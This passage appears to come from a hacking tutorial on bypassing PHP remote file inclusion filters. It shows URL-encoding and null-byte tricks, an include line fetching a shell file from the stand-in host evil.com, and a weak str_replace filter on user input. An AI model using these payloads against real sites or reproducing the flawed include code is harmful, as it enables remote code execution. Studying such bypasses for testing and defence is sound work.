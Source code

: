 If the filter checks raw `http://`, you can encode it:

* URL encoded: `h%74tp://`
* Double URL encoded: `h%2574tp://`
* Using null bytes (`http://%00evil.com`) in old PHP versions.

***

### 5. Using `//` shorthand

Browsers accept `//example.com` (protocol-relative URL).

PHP might also handle it depending on context:

```php
include("//evil.com/shell.txt");

```

***

🚨 **Hacker lesson:**

When you see filtering like this:

```php
$file = str_replace("http://", "", $_GET['page']);
include($file);

```

…it’s usually weak. You should try `https://`, mixed case, or another wrapper.

***
